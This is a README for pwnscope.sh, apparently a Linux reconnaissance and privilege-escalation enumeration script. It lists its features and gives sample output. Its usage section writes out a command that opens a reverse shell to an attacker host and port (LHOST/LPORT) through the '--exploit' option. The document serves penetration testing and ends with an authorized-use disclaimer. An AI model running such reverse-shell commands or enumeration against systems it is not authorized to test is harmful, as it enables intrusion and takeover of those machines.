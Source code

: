 # pwnscope

![grafik](https://github.com/user-attachments/assets/a7d2a5b1-f674-4ace-8f57-3d452def5108)


**pwnscope.sh** is a lightweight Linux reconnaissance and minimal exploit toolkit script designed to help security professionals quickly gather system information and perform basic exploitation.
It's designed to run smarter and faster than other recon scripts yet. So just give it a try!

---

## Features

* Quick system overview (`--short`)
* Full enumeration including sudo privileges, SUID files, capabilities, cron jobs, network info, and Docker check (`--full`)
* Minimal reverse shell exploit via bash/sh (`--exploit`) requiring `LHOST` and `LPORT` environment variables

---

## Requirements

* Bash or compatible shell (works with `/bin/bash`, `/bin/sh`, `ash`, etc.)
* Linux environment
* `sudo` privileges for some extended checks (optional)
* Basic utilities like `find`, `ps`, `ss`, `ip`, `free`, `df`, `getcap`

---

## Usage

```bash
# Display help and usage
./pwnscope.sh

# Quick system info
./pwnscope.sh --short

# Full system enumeration
./pwnscope.sh --full

# Minimal reverse shell exploit
LHOST=10.10.10.4 LPORT=4444 ./pwnscope.sh --exploit
```

---

## Example Output

### Quick overview:

```
[*] Quick System Overview
Hostname: vulnserver
User: root
Kernel: 5.15.0-73-generic
Uptime: up 3 hours, 25 minutes
CPU Info: Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz
Memory Usage:
              total        used        free      shared  buff/cache   available
Mem:           3.7G        1.1G        1.5G         54M        1.1G        2.3G
Swap:          0B          0B          0B
Disk Usage (root):
/dev/sda1        50G        15G        33G   31% /
Top 5 processes by memory:
root       1234  4.2  3.1  987654 123456 ?    Sl   10:00   0:05 java
...
Open ports:
LISTEN   0      128         0.0.0.0:22          0.0.0.0:*  
LISTEN   0      128         127.0.0.1:5432      0.0.0.0:*  
...
```

---

## License

MIT License — see the [LICENSE](LICENSE) file for details.

---

## Disclaimer

This tool is intended for authorized penetration testing and security assessments only. Use responsibly and legally.
